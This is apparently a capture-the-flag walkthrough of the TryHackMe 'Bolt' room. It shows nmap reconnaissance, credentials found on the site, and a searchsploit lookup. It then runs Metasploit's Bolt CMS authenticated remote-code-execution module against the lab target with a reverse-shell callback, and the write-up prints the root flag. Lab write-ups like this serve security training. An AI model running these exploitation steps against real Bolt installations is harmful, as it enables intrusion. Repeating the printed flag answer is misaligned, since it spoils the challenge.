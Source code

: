 # Bolt

![tryhackme.com - © TryHackMe](.gitbook/assets/tryhackme-logo-small.png)

> 🔬🌐 [Bolt](https://tryhackme.com/room/bolt)
>
> *This room is designed for users to get familiar with the Bolt CMS and how it can be exploited using Authenticated Remote Code Execution*
>
> ![](.gitbook/assets/bolt.png)

🎯 Target IP: `10.10.218.91`

## Recon

```bash
su
echo "10.10.218.91 bolt.thm" >> /etc/hosts

# At the end of the room
# To clean up the last line from the /etc/hosts file
sed -i '$ d' /etc/hosts
```

Start Reconnaissance

```bash
mkdir thm/bolt
cd thm/bolt
nmap bolt.thm
    22/tcp   open  ssh
    80/tcp   open  http
    8000/tcp open  http-alt

nmap -sV -sC -Pn -oA bolt bolt.thm
```

```bash
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f385ec54f201b19440de42e821972080 (RSA)
|   256 77c7c1ae314121e4930e9add0b29e1ff (ECDSA)
|_  256 070543469db23ef04d6967e491d3d37f (ED25519)
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.29 (Ubuntu)
8000/tcp open  http    (PHP 7.2.32-1)
|_http-generator: Bolt
|_http-title: Bolt | A hero is unleashed
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 404 Not Found
|     Date: Mon, 15 May 2023 17:35:38 GMT
|     Connection: close
|     X-Powered-By: PHP/7.2.32-1+ubuntu18.04.1+deb.sury.org+1
|     Cache-Control: private, must-revalidate
|     Date: Mon, 15 May 2023 17:35:38 GMT
|     Content-Type: text/html; charset=UTF-8
|     pragma: no-cache
|     expires: -1
|     X-Debug-Token: 48ed6c
|     <!doctype html>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8">
|     <meta name="viewport" content="width=device-width, initial-scale=1.0">
|     <title>Bolt | A hero is unleashed</title>
|     <link href="https://fonts.googleapis.com/css?family=Bitter|Roboto:400,400i,700" rel="stylesheet">
|     <link rel="stylesheet" href="/theme/base-2018/css/bulma.css?8ca0842ebb">
|     <link rel="stylesheet" href="/theme/base-2018/css/theme.css?6cb66bfe9f">
|     <meta name="generator" content="Bolt">
|     </head>
|     <body>
|     href="#main-content" class="vis
|   GetRequest: 
|     HTTP/1.0 200 OK
|     Date: Mon, 15 May 2023 17:35:37 GMT
|     Connection: close
|     X-Powered-By: PHP/7.2.32-1+ubuntu18.04.1+deb.sury.org+1
|     Cache-Control: public, s-maxage=600
|     Date: Mon, 15 May 2023 17:35:37 GMT
|     Content-Type: text/html; charset=UTF-8
|     X-Debug-Token: 1f990b
|     <!doctype html>
|     <html lang="en-GB">
|     <head>
|     <meta charset="utf-8">
|     <meta name="viewport" content="width=device-width, initial-scale=1.0">
|     <title>Bolt | A hero is unleashed</title>
|     <link href="https://fonts.googleapis.com/css?family=Bitter|Roboto:400,400i,700" rel="stylesheet">
|     <link rel="stylesheet" href="/theme/base-2018/css/bulma.css?8ca0842ebb">
|     <link rel="stylesheet" href="/theme/base-2018/css/theme.css?6cb66bfe9f">
|     <meta name="generator" content="Bolt">
|     <link rel="canonical" href="http://0.0.0.0:8000/">
|     </head>
|_    <body class="front">
```

Enumerate the Bolt web application.

![](.gitbook/assets/image-20230515194324231.png)

> 📌 `bolt`:`boltadmin123`

Find the Bolt CMS login page

![](.gitbook/assets/image-20230515194049520.png)

Navigate to

- `http://bolt.thm:8000/bolt/login`
- and use the `bolt` credentials

Once logged in, the Bolt version is at the bottom of the page.

> 📌 `Bolt 3.7.1`

## Exploitation

```bash
searchsploit bolt 3.7 -w

# EDB-ID is 48296
```

![](.gitbook/assets/image-20230515194653700.png)

Use Metasploit to exploit the [**`Authenticated Remote Code Execution`**](https://www.exploit-db.com/exploits/48296) Bolt vulnerability

```bash
msfconsole -q

setg RHOSTS bolt.thm
setg RHOST bolt.thm
search bolt
use exploit/unix/webapp/bolt_authenticated_rce
set LHOST tun0
set USERNAME bolt
set PASSWORD boltadmin123
run
```

![root shell](.gitbook/assets/image-20230515195717170.png)

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'

find / -type f -name 'flag.txt' 2>/dev/null
cat /root/flag.txt
```





<details>
<summary>Reveal Flag - root: 🚩</summary>



`THM{wh0_d035nt_l0ve5_b0l7_r1gh7?}`

![](.gitbook/assets/image-20230515195919144.png)

</details>



------

